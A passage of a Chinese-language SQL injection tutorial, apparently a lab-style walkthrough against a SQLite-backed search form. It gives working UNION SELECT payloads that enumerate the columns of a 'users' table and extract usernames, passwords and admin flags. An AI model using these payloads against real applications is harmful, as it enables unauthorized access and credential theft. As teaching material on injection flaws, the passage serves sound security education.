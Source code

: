 我们感兴趣的表是名为“users”的表，我们的调查还需要一个步骤，我们可以进一步进入我们的过程以获得管理员凭证。

# 获取列的字段

这是我们在将它传递给真正的攻击之前需要的最后一个信息，让我们快速刷新一下获取 SQLite3 中的列名的方法:

```
SELECT name FROM pragma_table_info('table_name');
```

现在，您应该很容易理解如何构造我们的输入，它将是:

```
' UNION SELECT 1, 1, 1, name FROM pragma_table_info('users') --
```

就这些，现在点击“搜索”按钮，结果如下:

![](img/7c3860ac2fcab0213d7b379a075b6051.png)

# SQL 注入获取用户名和密码

在这个阶段，我们希望获得管理员的用户名和密码。
可以想象，这项工作与我们迄今为止所做的并没有太大的不同。
让我们试试我们的 UNION SELECT 查询，它甚至会显示字段“admin”代表什么。

为了利用漏洞，我们需要插入以下输入:

```
' UNION SELECT 1, username, password,admin FROM users --
```

输出将是:

![](img/bd2c657e05b368d60bdea6dd1130195b.png)
